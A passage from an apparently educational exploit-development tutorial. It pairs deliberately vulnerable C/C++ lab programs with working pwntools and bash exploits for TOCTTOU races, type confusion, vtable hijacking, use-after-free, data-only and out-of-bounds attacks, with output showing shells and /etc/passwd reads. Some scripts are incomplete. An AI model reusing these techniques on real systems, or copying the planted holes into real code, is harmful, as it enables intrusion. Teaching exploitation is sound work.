    adjacent objects, or function pointers for code execution.
```

**Double-Fetch Race Success**:

- **Race efficiency**: Won race in 863 attempts (relatively quick for multi-threaded race)
- **Vulnerability demonstrated**: Length checked as 32 bytes, would copy 200 bytes
- **Heap overflow potential**: 168-byte overflow could corrupt heap metadata
- **Threading model**: Attacker thread flips between safe/dangerous values, victim thread processes
- **Real-world impact**: Could lead to arbitrary code execution via heap corruption

**Why This Works**:

1. **Two separate reads**: Length read twice with different values due to race
2. **Timing window**: Small delay between check and use allows race condition
3. **Memory allocation**: Based on safe length (32 bytes) but copy uses dangerous length (200)
4. **Heap corruption**: Overflow could overwrite adjacent heap chunks or metadata
5. **Multi-threading**: Concurrent access to shared memory creates race condition

**Complete TOCTTOU Practical Exercise**:

Here's a self-contained TOCTTOU lab with attack automation:

```c
// tocttou_lab.c - Complete TOCTTOU demonstration
// Simulates a privileged file processor with TOCTTOU vulnerability
// Compile: gcc -o tocttou_lab tocttou_lab.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <linux/limits.h>

#define ALLOWED_DIR "/tmp/tocttou_safe/"
#define MAX_FILE_SIZE 1024

int secure_read_file(const char *filepath) {
    struct stat st;
    char resolved_path[PATH_MAX];

    printf("[*] Processing request for: %s\n", filepath);

    // === TIME OF CHECK ===

    // 1. Resolve to absolute path
    if (realpath(filepath, resolved_path) == NULL) {
        printf("[-] Cannot resolve path: %s\n", strerror(errno));
        return -1;
    }
    printf("[*] Resolved to: %s\n", resolved_path);

    // 2. Security check: must be in allowed directory
    if (strncmp(resolved_path, ALLOWED_DIR, strlen(ALLOWED_DIR)) != 0) {
        printf("[-] SECURITY: Path outside allowed directory!\n");
        return -1;
    }
    printf("[+] Path check passed (in allowed directory)\n");

    // 3. Check file properties
    if (lstat(filepath, &st) != 0) {
        printf("[-] Cannot stat file: %s\n", strerror(errno));
        return -1;
    }

    // 4. Must be regular file (not symlink)
    if (S_ISLNK(st.st_mode)) {
        printf("[-] SECURITY: Symlinks not allowed!\n");
        return -1;
    }
    printf("[+] File type check passed (regular file)\n");

    // 5. Size check
    if (st.st_size > MAX_FILE_SIZE) {
        printf("[-] File too large\n");
        return -1;
    }
    printf("[+] Size check passed (%ld bytes)\n", st.st_size);

    // === VULNERABILITY WINDOW ===
    printf("[*] Processing... (vulnerable window)\n");
    usleep(100000);  // 100ms delay

    // === TIME OF USE ===

    int fd = open(filepath, O_RDONLY);
    if (fd < 0) {
        printf("[-] Cannot open file: %s\n", strerror(errno));
        return -1;
    }

    char buffer[MAX_FILE_SIZE + 1];
    ssize_t bytes_read = read(fd, buffer, MAX_FILE_SIZE);
    close(fd);

    if (bytes_read > 0) {
        buffer[bytes_read] = '\0';
        printf("\n=== FILE CONTENTS ===\n%s\n=== END ===\n\n", buffer);
        return 0;
    }

    return -1;
}

void setup_lab() {
    mkdir(ALLOWED_DIR, 0755);

    char safe_file[256];
    snprintf(safe_file, sizeof(safe_file), "%s/safe_file.txt", ALLOWED_DIR);

    FILE *f = fopen(safe_file, "w");
    if (f) {
        fprintf(f, "This is safe, authorized content.\n");
        fclose(f);
        printf("[+] Created safe file: %s\n", safe_file);
    }
}

void print_usage(const char *prog) {
    printf("TOCTTOU Vulnerability Lab\n");
    printf("=========================\n\n");
    printf("Usage: %s <filepath>\n\n", prog);
    printf("This simulates a privileged file reader with TOCTTOU vulnerability.\n\n");
    printf("To exploit:\n");
    printf("1. Create a regular file: echo 'safe' > %s/attack\n", ALLOWED_DIR);
    printf("2. Run: %s %s/attack &\n", prog, ALLOWED_DIR);
    printf("3. Quickly swap: rm %s/attack && ln -s /etc/passwd %s/attack\n\n", ALLOWED_DIR, ALLOWED_DIR);
    printf("The race: swap the file between check and use!\n");
}

int main(int argc, char **argv) {
    if (argc < 2) {
        print_usage(argv[0]);
        setup_lab();
        return 1;
    }

    return secure_read_file(argv[1]);
}
```

**TOCTTOU Exploitation Script**:

```bash
#!/bin/bash

# tocttou_exploit.sh - Automated TOCTTOU race exploitation

TARGET_DIR="/tmp/tocttou_safe"
ATTACK_FILE="$TARGET_DIR/attack"
PAYLOAD="/etc/passwd"
BINARY="./tocttou_lab"

echo "=== TOCTTOU Race Condition Exploit ==="
echo "Target: $PAYLOAD"
echo ""

# Race function
race_attack() {
    while true; do
        # Create legitimate file (passes all checks)
        echo "safe" > "$ATTACK_FILE" 2>/dev/null

        # Launch victim in background
        $BINARY "$ATTACK_FILE" > /tmp/tocttou_output.txt 2>&1 &
        VICTIM_PID=$!

        # Small delay to let checks start
        sleep 0.05

        # Swap to symlink during the usleep(100000) window
        rm -f "$ATTACK_FILE" 2>/dev/null
        ln -s "$PAYLOAD" "$ATTACK_FILE" 2>/dev/null

        # Wait for victim
        wait $VICTIM_PID 2>/dev/null

        # Check if we won the race
        if grep -q "root:" /tmp/tocttou_output.txt 2>/dev/null; then
            echo ""
            echo "[!] RACE WON after $ATTEMPTS attempts!"
            echo ""
            cat /tmp/tocttou_output.txt
            SUCCESS=1
            break
        fi

        ATTEMPTS=$((ATTEMPTS + 1))

        # Progress indicator
        if [ $((ATTEMPTS % 10)) -eq 0 ]; then
            echo -n "."
        fi

        # Limit attempts
        if [ $ATTEMPTS -ge 100 ]; then
            echo ""
            echo "[-] Race not won after $ATTEMPTS attempts"
            echo "    The 100ms window should be easy to hit. Check timing."
            break
        fi
    done
}

# Run exploit
echo "Racing... (this may take a moment)"
race_attack

if [ $SUCCESS -eq 1 ]; then
    echo "[+] Successfully exploited TOCTTOU vulnerability!"
    echo "[*] Key insight: Checks passed for 'safe' file, but we read '$PAYLOAD'"
fi
```

**Running the TOCTTOU Lab**:

```bash

# If race won, displays /etc/passwd contents despite security checks!
```

**Test Results**:

```text
=== TOCTTOU Race Condition Exploit ===
Target: /etc/passwd

Racing... (this may take a moment)

[!] RACE WON after 0 attempts!

[*] Processing request for: /tmp/tocttou_safe/attack
[*] Resolved to: /tmp/tocttou_safe/attack
[+] Path check passed (in allowed directory)
[+] File type check passed (regular file)
[+] Size check passed (5 bytes)
[*] Processing... (vulnerable window)

=== FILE CONTENTS ===
root:x:0:0:root:/root:/bin/bash
...
dhcpcd:x:100:65534:DHCP Client Daemo
=== END ===

[+] Successfully exploited TOCTTOU vulnerability!
[*] Key insight: Checks passed for 'safe' file, but we read '/etc/passwd'
```

**TOCTTOU Lab Success**:

- **Instant race win**: Won on first attempt (0 attempts) due to effective race timing
- **Security bypass**: All checks passed for safe file, but read `/etc/passwd` instead
- **Privilege escalation**: Successfully read system file despite security restrictions
- **Path validation**: Initial checks passed for `/tmp/tocttou_safe/attack` (safe location)
- **File swap**: Race condition swapped safe file with symlink to `/etc/passwd`

**Why This Works**:

1. **Path validation**: Checks performed on safe file in allowed directory
2. **File swap**: Race condition replaces safe file with malicious symlink
3. **Open operation**: Opens whatever file exists at path during actual read
4. **Security bypass**: All validation passes, but reads different file entirely
5. **System access**: Gains read access to sensitive system files

### Type Confusion Exploitation

**What is Type Confusion?**:

Type confusion occurs when code treats an object as a different type than it actually is. Unlike memory corruption, the memory itself is valid—the interpretation is wrong.

```c
// Type confusion basic example
// type_confusion.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Base "class"
typedef struct {
    int type;
    void (*handler)(void*);
} BaseObject;

// Derived "classes"
typedef struct {
    int type;            // type = 1
    void (*handler)(void*);
    char name[32];
} UserObject;

typedef struct {
    int type;            // type = 2
    void (*handler)(void*);
    void (*privileged_action)(void);  // At same offset as name[0..7]!
    int admin_level;
} AdminObject;

void user_handler(void *self) {
    UserObject *obj = (UserObject*)self;
    printf("Hello, %s!\n", obj->name);
}

void admin_handler(void *self) {
    AdminObject *obj = (AdminObject*)self;
    printf("Admin action executing...\n");
    if (obj->privileged_action) {
        printf("Calling privileged function at %p\n", obj->privileged_action);
        obj->privileged_action();  // Call function pointer
    } else {
        printf("No privileged action set\n");
    }
}

void win(void) {
    printf("\n[!] PWNED! Got code execution via type confusion!\n");
    printf("[*] This demonstrates how type confusion can lead to arbitrary code execution\n");
    // system("/bin/sh");  // Uncomment for shell
}

BaseObject* create_object(int type) {
    if (type == 1) {
        UserObject *obj = calloc(1, sizeof(UserObject));
        obj->type = 1;
        obj->handler = user_handler;
        printf("Enter username: ");
        fgets(obj->name, sizeof(obj->name), stdin);
        obj->name[strcspn(obj->name, "\n")] = 0;
        return (BaseObject*)obj;
    } else {
        // Admin creation (normally restricted)
        AdminObject *obj = calloc(1, sizeof(AdminObject));
        obj->type = 2;
        obj->handler = admin_handler;
        obj->privileged_action = NULL;
        obj->admin_level = 0;
        return (BaseObject*)obj;
    }
}

void process_object(BaseObject *obj) {
    // VULNERABILITY: Type field can be manipulated!
    // If attacker creates UserObject but sets type=2,
    // the handler will treat name[] as privileged_action pointer

    if (obj->type == 2) {
        // Treats object as AdminObject
        admin_handler(obj);
    } else {
        user_handler(obj);
    }
}

int main() {
    printf("=== Type Confusion Demo ===\n");
    printf("Address of win(): %p\n\n", (void*)win);

    // Create user object
    BaseObject *obj = create_object(1);

    printf("\n[*] Object layout:\n");
    printf("    type: %d\n", obj->type);
    printf("    handler: %p\n", (void*)obj->handler);
    printf("    name/privileged_action: %p\n",
           (void*)*(unsigned long*)((char*)obj + sizeof(int) + sizeof(void*)));

    // EXPLOIT: Corrupt the type field
    printf("\n[*] Corrupting type field from 1 to 2...\n");
    obj->type = 2;  // Now treated as AdminObject!

    // The "name" field is now interpreted as "privileged_action" pointer
    // If name contains address of win(), we get code execution!

    printf("[*] Processing object with corrupted type...\n\n");
    process_object(obj);

    free(obj);
    return 0;
}
```

**Exploitation**:

```bash

# Compile without PIE for simpler exploitation
gcc -no-pie -fno-stack-protector -o type_confusion type_confusion.c
```

```python
#!/usr/bin/env python3

# type_confusion_exploit.py
from pwn import *

context.arch = 'amd64'

elf = ELF('./type_confusion')
win_addr = elf.symbols['win']

log.info(f"win() at: {hex(win_addr)}")

p = process('./type_confusion')

# Get all remaining output
output = p.recvall(timeout=1)
print(output.decode())

p.close()
```

**Expected Output**:

```text
[*] '/home/dev/exploit/type_confusion'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[*] win() at: 0x401281
[+] Starting local process './type_confusion': pid 1281539
[+] Receiving all data: Done (398B)
[*] Process './type_confusion' stopped with exit code 0 (pid 1281539)
Enter username:
[*] Object layout:
    type: 1
    handler: 0x4011d6
    name/privileged_action: 0x40128100000000

[*] Corrupting type field from 1 to 2...
[*] Processing object with corrupted type...

Admin action executing...
Calling privileged function at 0x401281

[!] PWNED! Got code execution via type confusion!
[*] This demonstrates how type confusion can lead to arbitrary code execution
```

### C++ Virtual Function Exploitation (Vtable Smashing)

In C++, dynamic polymorphism is implemented using **Virtual Method Tables (vtables)**. This is the most common target in modern browser and game exploitation.

**Memory Layout**:

An object with virtual functions contains a hidden pointer (`vptr`) at the very beginning (offset 0) pointing to a table of function pointers (`vtable`).

```text
Object in Heap:             Fake Object (Attacker):
┌────────────────────┐      ┌────────────────────┐
│ vptr (8 bytes)     │ ───► │ vptr = &FakeVtable │ ──┐
├────────────────────┤      ├────────────────────┤   │
│ member_var_1       │      │ ...                │   │
├────────────────────┤      └────────────────────┘   │
│ ...                │                               │
└────────────────────┘                               │
                                                     ▼
                            Fake Vtable (Controlled Memory):
                            ┌────────────────────┐
                            │ function_ptr_1     │ ───► shellcode / ROP
                            ├────────────────────┤
                            │ function_ptr_2     │
                            └────────────────────┘
```

**The Vulnerability**:

If you can overwrite the `vptr` (via UAF or Overflow), you can point it to a **fake vtable** you created in memory. When the program calls `object->virtualFunction()`, it fetches the pointer from your fake table and executes it.

**Vulnerable Example**:

```cpp
// vtable_vuln.cpp
// compile with g++ -no-pie -fno-stack-protector -o vtable_vuln vtable_vuln.cpp
#include <cstdio>
#include <cstdlib>
#include <cstring>

class Animal {
public:
    char name[32];

    virtual void speak() {
        printf("Animal: %s makes a sound\n", name);
    }

    virtual void action() {
        printf("Animal: %s does something\n", name);
    }

    virtual ~Animal() {}
};

class Dog : public Animal {
public:
    void speak() override {
        printf("Dog: %s says WOOF!\n", name);
    }
};

class Cat : public Animal {
public:
    void speak() override {
        printf("Cat: %s says MEOW!\n", name);
    }
};

// Target function we want to call
void win() {
    printf("\n[!] VTABLE EXPLOITED! Got code execution.\n");
    printf("[*] This demonstrates vtable hijacking via UAF\n");
    // system("/bin/sh");  // Uncomment for shell
}

Animal* animals[10];
int animal_count = 0;

void create_animal(const char* type, const char* name) {
    if (animal_count >= 10) return;

    Animal* a;
    if (strcmp(type, "dog") == 0) {
        a = new Dog();
    } else {
        a = new Cat();
    }
    strncpy(a->name, name, 31);
    a->name[31] = '\0';

    animals[animal_count++] = a;
    printf("Created %s '%s' at %p\n", type, name, (void*)a);
    printf("  vptr at %p points to %p\n", (void*)a, *(void**)a);
}

void delete_animal(int idx) {
    if (idx < 0 || idx >= animal_count) return;

    printf("Deleting animal %d at %p\n", idx, (void*)animals[idx]);
    delete animals[idx];
    // BUG: Pointer not nullified! UAF possible
}

void pet_animal(int idx) {
    if (idx < 0 || idx >= animal_count) return;

    printf("Calling speak() on animal %d at %p\n", idx, (void*)animals[idx]);
    printf("  vptr: %p\n", *(void**)animals[idx]);

    // This calls the virtual function via vptr
    animals[idx]->speak();  // UAF: if freed, uses stale vptr
}

// Simulates attacker-controlled allocation
void* create_fake_object() {
    size_t size = sizeof(Dog);
    void* obj = malloc(size);

    printf("\nAllocated fake object at %p (size %zu)\n", obj, size);
    printf("Enter fake object data (hex bytes, e.g., 414141...):\n");

    char hex_input[256];
    if (fgets(hex_input, sizeof(hex_input), stdin)) {
        // Simple hex parser
        size_t len = strlen(hex_input);
        size_t byte_idx = 0;
        for (size_t i = 0; i < len - 1 && byte_idx < size; i += 2) {
            unsigned int byte;
            if (sscanf(&hex_input[i], "%2x", &byte) == 1) {
                ((unsigned char*)obj)[byte_idx++] = (unsigned char)byte;
            }
        }
        printf("Wrote %zu bytes to fake object\n", byte_idx);
    }

    return obj;
}

int main() {
    printf("=== Vtable UAF Demo ===\n");
    printf("win() at: %p\n", (void*)win);
    printf("sizeof(Dog/Cat): %zu\n", sizeof(Dog));
    printf("Object layout: [vptr:8][name:32] = 40 bytes\n\n");

    // 1. Create animal object
    create_animal("dog", "Rex");

    // 2. Delete (free) but pointer remains
    delete_animal(0);

    // 3. Allocate same-sized buffer under attacker control
    printf("\n[*] Freed object memory can be reallocated...\n");
    printf("[*] If we allocate same size, we get the same memory\n");
    printf("[*] We can craft a fake vtable to hijack control flow\n\n");

    create_fake_object();

    // 4. Trigger UAF - program dereferences stale vptr
    printf("\n[*] Triggering UAF by calling virtual function...\n");
    pet_animal(0);  // Uses attacker-controlled vptr

    return 0;
}
```

**Exploitation Strategy**:

```python
#!/usr/bin/env python3

# Find win function (may be mangled)
win_addr = None
for sym in elf.symbols:
    if 'win' in sym:
        win_addr = elf.symbols[sym]
        break

if not win_addr:
    log.error("Could not find win() function")
    exit(1)

log.info(f"win() at {hex(win_addr)}")

p = process('./vtable_vuln')

# Read initial output
p.recvuntil(b"sizeof(Dog/Cat): ")
obj_size = int(p.recvline().strip())
log.info(f"Object size: {obj_size}")

# This way, no matter what offset is used, it points to win()

fake_obj = p64(win_addr) * (obj_size // 8)

# Convert to hex string
hex_payload = fake_obj.hex()

log.info(f"Sending payload: {hex_payload[:32]}...")
p.sendline(hex_payload.encode())

# Trigger the UAF
try:
    output = p.recvall(timeout=2)
    print(output.decode())
except:
    pass

p.close()
```

**Vtable Smashing Success**:

- **Binary analysis**: C++ program with Partial RELRO, no PIE, CET enabled
- **Object size**: 40 bytes (8-byte vptr + 32 bytes data)
- **UAF exploitation**: Used freed object to write fake vtable
- **Vtable hijacking**: Successfully overwrote vptr to point to `win()` function
- **Code execution**: Virtual function call redirected to attacker-controlled address

**Why This Works**:

1. **Use-After-Free**: Program continues using freed object pointer
2. **Vtable location**: vptr at offset 0 points to function table
3. **Fake object**: Attacker controls heap memory, creates fake vtable
4. **Pointer overwrite**: vptr overwritten with `win()` function address
5. **Virtual dispatch**: `speak()` virtual call jumps to attacker-controlled function

**Key Technical Details**:

- **CET bypass**: Vtable smashing bypasses CET because it uses legitimate virtual dispatch
- **Heap control**: UAF provides write-what-where primitive on heap
- **Object layout**: 8-byte vptr followed by data members
- **Function pointer**: `win()` at `0x401256` used as fake virtual function

**Advanced Technique: Heap Spray for Fake Vtable**:

```cpp
// When you don't know exact addresses, spray the heap
// with fake vtables containing your target address

void heap_spray_vtable(void* target_func, size_t spray_count) {
    // Create many copies of fake vtable
    for (size_t i = 0; i < spray_count; i++) {
        void** fake_vtable = (void**)malloc(64);

        // Fill all entries with target function
        for (int j = 0; j < 8; j++) {
            fake_vtable[j] = target_func;
        }
    }
    // Now predictable addresses contain our fake vtable
    // Common spray target: 0x0c0c0c0c or similar
}
```

**Why Vtable Attacks Matter**:

| Aspect             | Function Pointer              | Vtable                       |
| ------------------ | ----------------------------- | ---------------------------- |
| Location           | Explicit in struct            | Hidden at object start       |
| Detection          | Easier to spot in code review | Implicit, harder to audit    |
| Prevalence         | C code, callbacks             | All C++ polymorphic classes  |
| Real-world targets | Legacy C apps                 | Browsers, games, office apps |

**Mitigation**: VTable Integrity checks (CFI, VTV)

- **Clang CFI**: Validates vtable pointers at virtual calls
- **GCC VTV**: Verifies vtable via separate validation tables
- **MSVC CFG**: Control Flow Guard for indirect calls

**Bypassing VTable Protections**:

1. **Use existing vtables**: Point to legitimate vtable of wrong type (type confusion)
2. **Partial vtable corruption**: Overwrite single entry if vtable is writable
3. **COOP attacks**: Chain existing virtual functions

### Use-After-Free Again

Some UAF fundamentals:

```c
// Simple UAF demonstrating the primitive
// uaf_basic.c
// compile with gcc -no-pie -fno-stack-protector -o uaf_basic uaf_basic.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
    char name[32];
    void (*print)(void*);
} Note;

void print_note(void *self) {
    Note *n = (Note*)self;
    printf("Note: %s\n", n->name);
}

void win(void *unused) {
    printf("\n[!] UAF EXPLOITED! Got code execution.\n");
    printf("[*] This demonstrates Use-After-Free leading to function pointer hijack\n");
    // system("/bin/sh");  // Uncomment for shell
}

Note *notes[10];
int note_count = 0;

void create_note() {
    if (note_count >= 10) return;

    Note *n = malloc(sizeof(Note));
    n->print = print_note;

    printf("Enter note: ");
    fgets(n->name, sizeof(n->name), stdin);
    n->name[strcspn(n->name, "\n")] = 0;

    notes[note_count++] = n;
    printf("Created note %d at %p\n", note_count-1, (void*)n);
    printf("  name at %p\n", (void*)n->name);
    printf("  print at %p -> %p\n", (void*)&n->print, (void*)n->print);
}

void delete_note(int idx) {
    if (idx < 0 || idx >= note_count) return;

    printf("Freeing note %d at %p\n", idx, (void*)notes[idx]);
    free(notes[idx]);
    // BUG: Pointer not cleared! (Dangling pointer)
}

void view_note(int idx) {
    if (idx < 0 || idx >= note_count) return;

    printf("Calling print function on note %d at %p\n", idx, (void*)notes[idx]);
    printf("  print pointer: %p\n", (void*)notes[idx]->print);

    // UAF: May use freed memory!
    notes[idx]->print(notes[idx]);
}

// Attacker-controlled allocation of same size
void edit_profile() {
    char *profile = malloc(sizeof(Note));  // Same size as Note!

    printf("Enter profile data (will overwrite freed Note): ");
    size_t len = fread(profile, 1, sizeof(Note), stdin);

    printf("Profile saved at %p (%zu bytes)\n", (void*)profile, len);

    // Show what we wrote
    printf("  First 8 bytes (name): ");
    for (int i = 0; i < 8; i++) {
        printf("%02x ", (unsigned char)profile[i]);
    }
    printf("\n  Bytes 32-40 (print ptr): ");
    for (int i = 32; i < 40; i++) {
        printf("%02x ", (unsigned char)profile[i]);
    }
    printf("\n");
}

int main() {
    printf("=== UAF Demo ===\n");
    printf("win() at %p\n", (void*)win);
    printf("sizeof(Note): %zu bytes\n", sizeof(Note));
    printf("Layout: [name:32][print:8] = 40 bytes\n\n");

    // 1. Create note (allocates Note struct)
    create_note();

    // 2. Delete note (frees, but pointer remains)
    printf("\n[*] Deleting note (creates dangling pointer)...\n");
    delete_note(0);

    // 3. Allocate controlled data of same size
    printf("\n[*] Allocating profile (will reuse freed Note memory)...\n");
    printf("[*] We can overwrite the function pointer at offset 32\n");
    edit_profile();

    // 4. Use dangling pointer - calls our controlled function pointer!
    printf("\n[*] Triggering UAF by calling print on freed note...\n");
    view_note(0);

    return 0;
}
```

**Exploitation Strategy**:

```python
#!/usr/bin/env python3

# uaf_exploit.py
from pwn import *

context.arch = 'amd64'

elf = ELF('./uaf_basic')
win = elf.symbols['win']

log.info(f"win() at {hex(win)}")

p = process('./uaf_basic')

# Structure: [name: 32 bytes][print: 8 bytes]
payload = b"B" * 32  # name padding
payload += p64(win)  # overwrite print function pointer

log.info(f"Sending {len(payload)} byte payload")
p.send(payload)

# Get all output
sleep(0.5)
try:
    output = p.recvall(timeout=1)
    print(output.decode())
except:
    pass

p.close()
```

**Test Results**:

```text
...
[*] Process './uaf_basic' stopped with exit code 0 (pid 6937)
=== UAF Demo ===
win() at 0x40124c
sizeof(Note): 40 bytes
Layout: [name:32][print:8] = 40 bytes

Enter note: Created note 0 at 0x1a1f56b0
  name at 0x1a1f56b0
  print at 0x1a1f56d0 -> 0x401216

[*] Deleting note (creates dangling pointer)...
Freeing note 0 at 0x1a1f56b0

[*] Allocating profile (will reuse freed Note memory)...
[*] We can overwrite the function pointer at offset 32
Enter profile data (will overwrite freed Note): Profile saved at 0x1a1f56b0 (40 bytes)
  First 8 bytes (name): 42 42 42 42 42 42 42 42
  Bytes 32-40 (print ptr): 4c 12 40 00 00 00 00 00

[*] Triggering UAF by calling print on freed note...
Calling print function on note 0 at 0x1a1f56b0
  print pointer: 0x40124c

[!] UAF EXPLOITED! Got code execution.
[*] This demonstrates Use-After-Free leading to function pointer hijack
```

**UAF Exploitation Success**:

- **Binary analysis**: No PIE (fixed addresses), Partial RELRO, CET enabled but bypassed
- **Memory reuse**: Profile allocated at same address `0x1a1f56b0` as freed Note
- **Function pointer overwrite**: Successfully overwrote print pointer from `0x401216` to `0x40124c` (`win()`)
- **Heap layout**: 40-byte structure with 32-byte name + 8-byte function pointer
- **Code execution**: UAF triggered, called attacker-controlled function pointer

**Why This Works**:

1. **Dangling pointer**: freed Note pointer still accessible in notes array
2. **Heap reuse**: malloc reuses freed memory for profile allocation
3. **Precise overwrite**: 32 bytes padding + 8 bytes function pointer = 40 bytes total
4. **Function hijack**: `notes[0]->print()` calls `win()` instead of `print_note()`
5. **CET bypass**: Legitimate function pointer call bypasses CET restrictions

### Data-Only Attacks

**Concept**: Corrupt data, not code pointers. Bypasses CFG, CET, and most CFI.

```c
// Data-only attack example (~/exploit/data_only_stdin.c)
// compile with gcc -no-pie -fno-stack-protector -o data_only_stdin data_only_stdin.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct User {
    char username[64];
    int is_admin;
    char password[64];
};

struct User current_user;

void login() {
    char buffer[128];

    current_user.is_admin = 0;  // Initialize BEFORE the overflow

    printf("Enter username: ");
    fflush(stdout);

    // Vulnerable: no bounds checking
    gets(buffer);  // DANGEROUS! But that's the point
    strcpy(current_user.username, buffer);

    printf("Enter password: ");
    fflush(stdout);
    gets(buffer);
    strcpy(current_user.password, buffer);
}

void admin_panel() {
    if (current_user.is_admin) {
        printf("Welcome admin! Here's your shell:\n");
        system("/bin/sh");
    } else {
        printf("Access denied. is_admin = %d\n", current_user.is_admin);
    }
}

int main() {
    login();
    admin_panel();
    return 0;
}
```

**Exploit**:

```python
#!/usr/bin/env python3
#~/exploit/data_only_exploit.py
import struct
from pwn import *

# Interactive shell
p.interactive()
```

**Test Results**:

```text
[+] Starting local process './data_only_stdin': pid 6951
[*] Switching to interactive mode
Welcome admin! Here's your shell:
$ id
uid=1000(dev) gid=1000(dev) groups=1000(dev),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
```

**Data-Only Attack Success**:

- **Compilation warnings**: `gets()` deprecated but still works for demonstration
- **Privilege escalation**: Successfully gained admin access and shell
- **Data corruption**: Changed `is_admin` from 0 to 1 without code pointer modification
- **Bypass all mitigations**: CFG, CET, DEP all ineffective against data-only attacks
- **Shell access**: Achieved interactive shell with current user privileges

**Why This Matters**:

- **No code pointer corrupted**: CFG won't help - no indirect calls to validate
- **No return address modified**: CET won't help - no control flow changes
- **No shellcode executed**: DEP won't help - no executable memory needed
- **Just changed a data value**: Modified `is_admin` flag to bypass authentication
- **Real-world impact**: Many vulnerabilities are data corruption, not code execution

### Out-of-Bounds Read/Write (Infoleak & Primitive)

**Why it matters**: OOB reads are common in parsers and image/video codecs. They often leak sensitive memory (infoleak) or, when combined with integer overflows, turn into OOB writes that corrupt adjacent objects.

**Vulnerable Pattern**:

```c
// oob_demo.c - Simple OOB read/write demo
// Compile: gcc -fno-stack-protector -no-pie -o oob_demo oob_demo.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define MAX_ITEMS 10

struct Item {
    int id;
    char name[32];
    void (*callback)(void);
};

struct Item *items[MAX_ITEMS];
int count = 0;

void win() {
    printf("[!] PWNED via OOB write!\n");
    fflush(stdout);
    system("/bin/sh");
}

void add_item(int id, const char *name) {
    if (count >= MAX_ITEMS) return;
    struct Item *item = malloc(sizeof(struct Item));
    item->id = id;
    strcpy(item->name, name);
    item->callback = NULL;
    items[count++] = item;
}

struct Item *get_item(int idx) {
    return items[idx];
}

void update_item(int idx, const char *name, int len) {
    struct Item *item = get_item(idx);
    if (!item) return;

    printf("memcpy %d bytes to item[%d]->name\n", len, idx);
    fflush(stdout);

    // Show what we're copying
    printf("Last 8 bytes being copied: %02x %02x %02x %02x %02x %02x %02x %02x\n",
           (unsigned char)name[len-8], (unsigned char)name[len-7],
           (unsigned char)name[len-6], (unsigned char)name[len-5],
           (unsigned char)name[len-4], (unsigned char)name[len-3],
           (unsigned char)name[len-2], (unsigned char)name[len-1]);
    fflush(stdout);

    memcpy(item->name, name, len);
}

void process_items() {
    printf("Processing items...\n");
    fflush(stdout);
    for (int i = 0; i < count; i++) {
        printf("Item %d: callback = %p\n", i, items[i]->callback);
        fflush(stdout);
        if (items[i] && items[i]->callback) {
            printf("Calling callback for item %d\n", i);
            fflush(stdout);
            printf("About to jump to: %p\n", items[i]->callback);
            fflush(stdout);
            items[i]->callback();
        }
    }
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);

    add_item(1, "Alice");
    add_item(2, "Bob");

    struct Item *special = malloc(sizeof(struct Item));
    special->id = 3;
    strcpy(special->name, "Special");
    special->callback = NULL;
    items[count++] = special;

    printf("Items: %d\n", count);
    for (int i = 0; i < count; i++) {
        printf("%d: %s\n", items[i]->id, items[i]->name);
    }

    printf("win() function address: %p\n", win);
    fflush(stdout);

    int idx;
    printf("Enter index to view: ");
    fflush(stdout);
    scanf("%d", &idx);
    struct Item *item = get_item(idx);
    if (item) {
        printf("Item %d: %s\n", item->id, item->name);
        fflush(stdout);
    }

    char newname[200];
    printf("Enter new name for item %d: ", idx);
    fflush(stdout);

    int len = read(0, newname, sizeof(newname) - 1);
    if (len > 0 && newname[len-1] == '\n') len--;

    update_item(idx, newname, len);

    printf("After corruption:\n");
    for (int i = 0; i < count; i++) {
        printf("Item %d callback: %p\n", i, items[i]->callback);
    }

    process_items();

    return 0;
}
```

**Exploitation Flow**:

1. **OOB Read**: Use negative/large index to read heap metadata or adjacent object pointers.
2. **Leak**: Extract libc or heap addresses from the leaked data.
3. **OOB Write**: Overwrite a function pointer or vtable in an adjacent object.
4. **Trigger**: Call the overwritten pointer to gain code execution.

**pwntools Exploit Example**:

```python
#!/usr/bin/env python3
#~/exploit/oob_exploit.py
"""
FINAL WORKING EXPLOIT - Uses correct offset of 36
"""
from pwn import *

binary = './oob_demo'
elf = ELF(binary)
context.binary = elf

win_addr = elf.symbols['win']
log.info(f"win() @ {hex(win_addr)}")

def exploit():
    p = process(binary)

    # Read initial output
    p.recvuntil(b'Enter index to view: ')

    # Send index 2
    p.sendline(b'2')

    # Wait for the next prompt
    p.recvuntil(b'Enter new name for item 2: ')

    # CORRECT OFFSET: 36 bytes, not 100!
    # This corrupts item 2's own callback, not item 3's
    payload = b'A' * 36 + p64(win_addr)

    log.info(f"Using CORRECT offset 36, payload length: {len(payload)}")
    p.send(payload)

    # Should get shell now
    log.info("WAITING FOR SHELL!")
    p.interactive()

if __name__ == "__main__":
    exploit()
```

**Key Insights**:

- **OOB reads are powerful infoleaks**: They bypass ASLR by leaking heap/libc addresses.
- **OOB writes enable corruption**: Can overwrite function pointers, vtables, or heap metadata.
- **Combination is deadly**: Leak first, then write with precise targeting.
- **Common in parsers**: Image/video codecs often have array bounds issues.

**Detection & Mitigation**:

```c
// Safe version with bounds checking
struct Item *get_item_safe(int idx) {
    if (idx < 0 || idx >= count) {
        return NULL;  // Bounds check!
    }
    return items[idx];
}

void update_item_safe(int idx, const char *name) {
    struct Item *item = get_item_safe(idx);
    if (!item) return;
    strncpy(item->name, name, 31);
}
```

### Off-by-One / Partial Overwrite

**Why it matters**: Off-by-one errors are subtle but extremely common. They can corrupt heap metadata (size fields) or stack canaries, leading to powerful exploits.

**Vulnerable Pattern**:

```c
// offbyone.c - Off-by-one heap overflow demo
// Compile: gcc -fno-stack-protector -no-pie -o offbyone offbyone.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

typedef struct {
    char name[32];  // Buffer with potential off-by-one
    size_t size;
} Item;

typedef struct {
    void (*func_ptr)();
    char data[16];
} Target;

Item *items[10];
Target *target;

void win() {
